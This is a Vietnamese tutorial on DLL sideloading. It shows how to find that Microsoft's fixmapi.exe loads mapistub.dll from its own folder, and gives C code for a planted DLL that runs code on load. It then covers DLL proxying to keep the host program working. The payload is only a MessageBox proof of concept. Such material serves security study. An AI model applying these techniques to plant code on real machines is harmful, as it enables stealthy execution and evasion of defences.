




## DLL Sideloading

DLL Sideloading là 1 kĩ thuật tận dụng lỗ hổng bảo mật ứng dụng trong thứ tự load DLL. Hiểu một cách đơn giản, đáng ra ứng dụng sẽ kiểm tra dll cần thiết ở các vị trí quan trọng hơn trước (ex. `C:\Windows\System32\`), nhưng thay vào đó lại kiểm tra thư mục hiện tại chứa ứng dụng trước, điều này cho phép tạo 1 phiên bản DLL độc hại và đặt nó vào trong thư mục hiện tại, giúp cho DLL sẽ được tải và thực thi.

### Tìm kiếm DLL Sideloading fixmapi.exe 

`fixmapi.exe` là công cụ chuẩn đoán của Microsoft cung cấp để khắc phục sự cố liên quan đến Giao diện lập trình ứng dụng nhắn tin (MAPI), có thể tìm kiếm công cụ này tại `C:\Windows\System32\`. Sử dụng `Process Monitor` để tìm kiếm DLL Sideloading trong ứng dụng này. Setup filter của ứng dụng như dưới:


Sau khi áp dụng bộ lọc, thực hiện chạy ứng dụng, xem kết quả:



Trong trường hợp có lỗ hổng DLL Sideloading, ứng dụng sẽ không tìm thấy DLL và kết quả sẽ là `NAME NOT FOUND`, vì vậy chỉ cần áp dụng thêm 1 bộ lọc cho `Result` như ở dưới:



Sau khi áp dụng, ta được kết quả là những file không tìm thấy như sau:


Có thể thấy ứng dụng đã tìm kiếm `mapistub.dll` tại vị trí `C:\User\vuong\Desktop\Test Sideloading\` nhưng không tìm thấy => `fixmapi.exe` chứa Sideloading với `mapistub.dll`.

### Tạo DLL khai thác Sideloading

Tạo mã `MessageBox` đơn giản khi DLL được load đơn giản:

```c
#include <iostream>
#include <thread>


BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
        MessageBoxA(NULL, "Hello", "Hello", MB_OK);
        break;
    case DLL_THREAD_ATTACH:
        
        break;
    case DLL_THREAD_DETACH:
        
        break;
    case DLL_PROCESS_DETACH:
        
        break;
    }
    return TRUE;
}
```

Đổi tên dll thành `mapistub.dll` và đặt vào cùng thư mục với `fixmapi.exe`, chạy file và nhận được kết quả:



Và kèm theo 1 lỗi:



Debug với x64dbg và tìm kiếm vị trí load DLL, ta nhận thấy nó đang tìm kiếm hàm export của DLL là `FixMAPI`, vì lý do không tìm thấy nên gây là lỗi, sử đổi mã để fix lỗi trên:

```c
extern "C" __declspec(dllexport) void FixMAPI() {
    MessageBoxA(NULL, "FIXMAPI", "FIXMAPI", MB_OK);
}
```

Thay vì thêm mã vào phần `DLL_PROCESS_ATTACH`, nên xây dựng hàm export. Điều này có thể tránh 1 số lỗi, nổi bật là lỗi liên quan đến thư viện phụ thuộc, trong trường hợp các thư viện load sau đó cần tới thư viện DLL ban đầu, tuy nhiên DLL đầu của chúng ta đang phải thực thi hàm trong `DLL_PROCESS_ATTACH`, dẫn tới việc nó load chưa xong và gây ra lỗi.

### DLL Proxying

Để tăng tính chân thực cho việc Sideloading, điều quan trọng là cần đảm bảo exe thực thi đúng những gì đáng ra nó cần làm, vì vậy cần đảm bảo DLL mang những chức năng thực sự của nó. Có 1 video đã nói đến việc này, sử dụng 1 vài tool hiệu quả để tạo ra 1 DLL vừa chứa mã độc hại vừa chứa chức năng như DLL ban đầu: https://www.youtube.com/watch?v=P7lLDM6cHpc

Ở dưới sẽ nói về cách custom code để làm được việc này.

Đối với 1 số hàm export được sử dụng, ta có thể sử dụng proxying bằng cách đổi tên DLL gốc thành 1 tên khác, đặt cùng với thư mục với dll sideloading, sau đó trong dll sideloading, thực hiện 1 số dòng code có format như sau. (Giả sử dll gốc được đổi tên thành tempdll.dll).

```c
#pragma comment(linker,"/export:FixMAPI=tempdll.FixMAPI,@14")
```

Trong đó `@14` là ordinal của export function, có thể tìm kiếm giá trị này bằng các công cụ xem PE format như CFF explore.

Đối với hàm sẽ đặt code sideloading, cần sử đổi 1 chút để nó có thể vừa thực thi mã độc hại, vừa hỏi đến hàm cần thiết.

```c
extern "C" __declspec(dllexport) PVOID FixMAPI() {
    MessageBoxA(NULL, "FIXMAPI", "FIXMAPI", MB_OK);

    HMODULE hModule = LoadLibraryA("tempdll.dll");

    if (!hModule) {
        return nullptr;
    }

    fnFixMAPI pFixMAPI = (fnFixMAPI)GetProcAddress(hModule, "FixMAPI");
    if (!pFixMAPI) {
		return nullptr;
	}

    return pFixMAPI();
}
```

